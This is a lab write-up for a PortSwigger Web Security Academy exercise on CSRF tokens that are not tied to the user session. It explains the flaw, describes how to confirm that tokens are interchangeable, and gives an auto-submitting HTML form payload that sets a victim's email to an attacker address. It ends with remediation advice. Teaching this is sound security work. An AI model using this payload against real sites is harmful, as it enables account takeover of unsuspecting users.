







# CSRF where token is not tied to user session

**Lab:** PortSwigger Web Security Academy — *CSRF where token is not tied to user session* (Practitioner).

> The email-change functionality uses CSRF tokens, but they are not integrated into the session handling system. Host an HTML page on the exploit server that changes the viewer's email. Accounts: `wiener:peter` and `carlos:montoya`.

## The flaw class: session independence

A CSRF token only defends anything if it is **bound to the user's session**. If the server keeps a *global pool* of valid tokens and accepts any token from that pool regardless of whose session it was issued to, the protection collapses: an attacker can obtain a perfectly valid token from **their own** account and embed it in a request aimed at the victim.

1. Attacker logs in, captures a valid `csrf` token from their session.
2. Attacker puts that token in the forged request.
3. Victim submits it; the server sees a token that exists in the pool and accepts it.

## 1. Confirm tokens are interchangeable

Log in as `wiener`, capture a change-email request and its `csrf` token. Drop it to Repeater. Then log in as `carlos` in a second session and capture that request too. Swap `wiener`'s token into `carlos`'s request (keeping `carlos`'s session cookie) — it still succeeds. The token is not tied to the session.









## 2. Mint a fresh token for the exploit

Load the change-email form in your own account and copy a currently-valid token. Build the PoC using that token as a hidden field:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@evil.com" />
      <input type="hidden" name="csrf" value="A-VALID-TOKEN-FROM-YOUR-SESSION" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```





## 3. Deliver it

Deliver the exploit. The victim's browser submits the form; the server accepts the attacker-supplied token because it is globally valid.



!!! note "Tokens can expire"
    Because the token is not bound to the victim, it only has to be valid *at the moment the victim submits it*. If the lab expires tokens, mint a fresh one just before delivering.

## Why the attack works

The token proves "a token was issued by this server", not "this request belongs to this session". Any valid token therefore satisfies the check, and attackers can issue themselves valid tokens at will.

## Remediation

Tie every CSRF token cryptographically to the session it was issued for (or store a per-session token server-side) and reject a token that belongs to a different session.
